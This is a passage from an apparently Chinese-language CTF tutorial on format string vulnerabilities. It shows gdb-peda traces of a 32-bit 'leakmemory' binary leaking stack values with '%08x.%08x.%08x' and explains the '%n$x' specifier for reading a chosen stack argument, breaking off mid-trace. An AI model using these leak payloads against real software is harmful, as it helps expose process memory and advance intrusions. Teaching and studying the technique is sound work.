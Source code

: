 栈中第一个变量为返回地址，第二个变量为格式化字符串的地址，第三个变量为 a 的值，第四个变量为 b 的值，第五个变量为 c 的值，第六个变量为我们输入的格式化字符串对应的地址。继续运行程序  
此时程序运行到下一个`printf`中

```gdb
[-------------------------------------code-------------------------------------]
   0xf7e4c67b <fprintf+27>:     ret
   0xf7e4c67c:  xchg   ax,ax
   0xf7e4c67e:  xchg   ax,ax
=> 0xf7e4c680 <printf>: call   0xf7f22c59
   0xf7e4c685 <printf+5>:       add    eax,0x16997b
   0xf7e4c68a <printf+10>:      sub    esp,0xc
   0xf7e4c68d <printf+13>:      mov    eax,DWORD PTR [eax-0x68]
   0xf7e4c693 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd25c --> 0x80484ce (<main+99>:      add    esp,0x10)
0004| 0xffffd260 --> 0xffffd270 ("%08x.%08x.%08x")
0008| 0xffffd264 --> 0xffffd270 ("%08x.%08x.%08x")
0012| 0xffffd268 --> 0xf7fe2a70 (add    edi,0x1a590)
0016| 0xffffd26c --> 0xf7ffdc08 --> 0xf7fd7000 (jg     0xf7fd7047)
0020| 0xffffd270 ("%08x.%08x.%08x")
0024| 0xffffd274 (".%08x.%08x")
0028| 0xffffd278 ("x.%08x")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```

此时，由于格式化字符串为`%x%x%x`，所以，程序 会将栈上的`0xffffd264`及其之后的数值分别作为第一，第二，第三个参数按照 int 型进行解析，分别输出。继续运行，我们可以得到如下结果去，确实和想象中的一样。

```
gdb-peda$ c
Continuing.
ffffd270.f7fe2a70.f7ffdc08[Inferior 1 (process 31506) exited normally]
```

需要注意的是，我们上面给出的方法，都是依次获得栈中的每个参数，我们有没有办法直接获取栈中被视为第 n+1 个参数的值呢？肯定是可以的啦。方法如下

```
%n$x
```

利用如下的字符串，我们就可以获取到对应的第 n+1 个参数的数值。为什么这里要说是对应第 n+1 个参数呢？这是因为格式化参数里面的 n 指的是该格式化字符串对应的第 n 个输出参数，那相对于输出函数来说，就是第 n+1 个参数了。  
这里我们再次以 gdb 调试一下。

```gdb
gdb-peda$ r
Starting program: /home/gong/Desktop/ctf/pwn/format-string/leakmemory
%3$x
[----------------------------------registers-----------------------------------]
EAX: 0xffffd270 ("%3$x")
EBX: 0x0
ECX: 0x7fffffe0
EDX: 0xf7fb7870 --> 0x0
ESI: 0xf7fb6000 --> 0x1b2db0
EDI: 0xf7fb6000 --> 0x1b2db0
EBP: 0xffffd2e8 --> 0x0
ESP: 0xffffd25c --> 0x80484ce (<main+99>:       add    esp,0x10)
EIP: 0xf7e4c680 (<printf>:      call   0xf7f22c59)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e4c67b <fprintf+27>:     ret
   0xf7e4c67c:  xchg   ax,ax
   0xf7e4c67e:  xchg   ax,ax
=> 0xf7e4c680 <printf>: call   0xf7f22c59
   0xf7e4c685 <printf+5>:       add    eax,0x16997b
   0xf7e4c68a <printf+10>:      sub    esp,0xc
```